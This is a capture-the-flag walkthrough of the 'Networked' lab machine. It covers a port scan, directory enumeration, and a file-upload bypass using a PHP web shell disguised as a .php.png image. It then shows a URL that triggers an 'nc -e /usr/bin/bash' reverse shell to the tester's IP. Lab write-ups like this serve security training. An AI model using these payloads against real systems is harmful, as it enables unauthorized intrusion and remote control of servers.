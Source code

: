 # Networkd

<img width="601" alt="Screenshot 2019-10-26 at 8 08 38 AM" src="https://user-images.githubusercontent.com/53229208/67610861-0e7b6b00-f7c8-11e9-9396-bbbde2d27c26.png">

**Summary**
1. Upload malicious file via port 80 (HTTP webserver). 
1. Trigger the uploaded malicious file and establish a reverse shell with `www-data` privilege.   
1. Privilege escalate to `guly` with the `check_attack.php` script and its cron job. 
1. Gain `root` access by exploiting the `changename.sh` script. 

## Port Scan
```
# Nmap 7.70 scan initiated Sun Oct 20 07:13:40 2019 as: nmap -sT -p- --min-rate 10000 -oA nmap-alltcp -Pn 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.25s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE
22/tcp  open   ssh
80/tcp  open   http
```

## Advance on
1. Ran gobuster on the port 80 HTTP web server and discovered the following web directories and files: 
   1. /backup.tar 
   1. /index.php
   1. /lib.php
   1. /photos.php
   1. /upload.php

   The `backup.tar` provides us the source files for the above items `ii` to `v`.

1. Upload a malicious image file, that is injected with PHP shell_exec code and name as `.php.png`. We can also study the `upload.php` source file to identify the controls implemented. In our case, the controls are limited file size and file extension.
   1. php shell_exec used: `<?php echo shell_exec($_GET['e'].' 2>&1'); ?>` 

   <img width="1665" alt="user" src="https://user-images.githubusercontent.com/53229208/67611430-3e2c7200-f7cc-11e9-9cb4-09cf33c07054.png">

1. From the `photos.php` page, we can identify the newly uploaded file's URL. If we study the uncovered `upload.php` source code, we understand that the uploaded file will be named after our source IP address, e.g. `10_10_15_78.php.png`.  
<img width="1369" alt="Screenshot 2019-10-26 at 8 45 09 AM" src="https://user-images.githubusercontent.com/53229208/67611558-07a32700-f7cd-11e9-85b8-67405d2316a7.png">

1. Trigger the upload PHP shell_exec, and we establish our first reverse shell.
   ```
   nc -nlvp 80 
   http://10.10.10.146/uploads/10_10_15_73.php.png?e=nc+-e+/usr/bin/bash+10.10.15.73+80
   ```
